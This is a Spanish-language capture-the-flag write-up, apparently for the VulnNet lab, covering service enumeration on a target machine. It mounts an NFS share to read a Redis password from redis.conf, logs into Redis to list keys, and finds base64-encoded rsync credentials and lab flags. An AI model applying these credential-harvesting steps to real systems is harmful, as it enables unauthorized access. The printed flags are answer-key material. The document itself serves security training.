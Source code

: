 
# SCAN

```
PORT      STATE    SERVICE
22/tcp    open     ssh
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
873/tcp   open     rsync
2049/tcp  open     nfs
6379/tcp  open     redis
9090/tcp  filtered zeus-admin
41849/tcp open     unknown
46121/tcp open     unknown
50201/tcp open     unknown
50693/tcp open     unknown
55157/tcp open     unknown
```
Resumen:
1. Servidor samba: 445
2. Servidor nfs: 2049
3. Servidor redis: 6379
4. Servidor rsync: 873

## SAMBA
Existe un archivo compartido (/shares) dentro del cual encontramos el primer flag

## REDIS
Es una base de datos no relacional (non-sql) con la estructura basica de las bases de datos no relacionales <key:value>. Necesitamos para
entrar un password que no tenemos

## NFS
Hay un recurso compartido nfs que es /opt/conf/. Podemos montar este directorio en nuestro sistema:
>$ sudo mount -t nfs vulnnet.thm:/opt/conf/  /tmp/mount

Una vez montado accedemos al directorio redis donde existe un fichero **redis.conf**, donde encontramos la contraseña para acceder a redis:
> B65Hx562F@ggAZ@F

## REDIS WITH PASS
Tras entrar en redis obtenemos
redis-cli> keys *
```
┌──(kali㉿kali)-[~]
└─$ redis-cli -h 10.10.21.113 -a B65Hx562F@ggAZ@F
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.21.113:6379> keys *
1) "tmp"
2) "authlist"
3) "internal flag"
4) "int"
5) "marketlist"
```
### tmp
Nada interesante
### authlist
Obtenemos este codigo que parece ser un code64:
> QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==

### internal flag
Obtenemos el segundo flag
THM{ff8e518addbbddb74531a724236a8221}






